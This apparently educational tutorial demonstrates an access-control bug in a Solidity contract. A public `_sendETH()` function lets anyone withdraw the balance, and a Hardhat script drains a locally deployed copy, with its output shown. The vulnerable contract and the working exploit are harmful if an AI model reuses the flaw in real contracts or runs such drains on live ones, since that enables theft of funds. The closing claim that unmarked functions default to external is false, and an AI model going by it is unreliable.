 Here is a simple smart contract with access control vulnerability
```
// SPDX-License-Identifier: MIT
// Access Control - Sample 1

pragma solidity ^0.7.0;

contract Sample1{
    address public owner;
    
    modifier onlyOwner() {
        require(msg.sender == owner, "MyToken: caller is not the owner");
        _;
    }

    constructor(){
        owner = msg.sender;
    }
    
    function withdraw() external onlyOwner{
        require(msg.sender == owner, "Not Owner");
        _sendETH();
    }
    
    function _sendETH() public {
        msg.sender.transfer(address(this).balance);
    }
    
    receive() external payable{}
}
```

The _sendETH() is vulernerable. Although the withdraw() implemeted onlyOwner, _sendETH() could be called by anyone

hardhat test.js
```
// Access Control - Sample 1

const { ethers } = require("hardhat");

async function main() {
  const [deployer, attacker] = await ethers.getSigners();

  // Deploy Sample1 contract
  const Sample1 = await ethers.getContractFactory("Sample1");
  const sample1 = await Sample1.deploy();
  await sample1.deployed();
  
  // Fund the contract with fake Ether
  await attacker.sendTransaction({
    to: sample1.address,
    value: ethers.utils.parseEther("10")
  });
  
  // Call _sendETH() function using the attacker's account
  await sample1.connect(attacker)._sendETH();

  console.log("Success! ETH has been sent to the attacker's account.");
}

main()
  .then(() => process.exit(0))
  .catch(error => {
    console.error(error);
    process.exit(1);
});
```

result
```
┌──(root㉿xxx)-[~/sc/test]
└─# npx hardhat run test/myTest/test.js --network localhost
Success! ETH has been sent to the attacker's account.                                                            
```

If the smart contract did't mark external/internal/etc.. , the default value should be external
Example: (It should be external)
```
function _sendETH()  {
     msg.sender.transfer(address(this).balance);
}
```
